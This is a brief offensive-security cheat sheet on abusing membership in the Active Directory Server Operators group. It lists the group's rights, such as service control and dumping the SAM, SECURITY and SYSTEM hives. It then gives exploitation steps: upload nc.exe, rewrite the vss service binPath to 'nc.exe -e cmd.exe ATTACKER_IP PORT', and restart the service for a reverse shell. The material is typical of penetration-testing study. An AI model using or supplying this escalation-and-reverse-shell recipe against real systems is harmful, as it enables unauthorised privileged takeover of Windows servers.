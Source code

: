 # Server Operators Active Direcotry Security Group

### Actions that this group performs:

#### 1) Start and stop services

#### 2) Create and delete network shared resources

#### 3) Backup and Restore files (SAM SECURITY SYSTEM hives dump)

#### 4) Sign in to a server interactively

#### 5) Format the hard disk drive of the computer

#### 6) Shutdown the computer

## Exploitation

### Steps:

## TIP: Upload a nc binary or run a powershell reverse shell if we use evil-winrm

 - Upload a nc binary to target machine (Upload /usr/share/windows-resources/binaries/nc.exe .)

 - sc.exe config vss binPath="C:\temp\nc.exe -e cmd.exe ATTACKER_IP PORT"

 - nc -lvnp PORT (Attacker machine)

 - sc.exe stop vss

 - sc.exe start vss
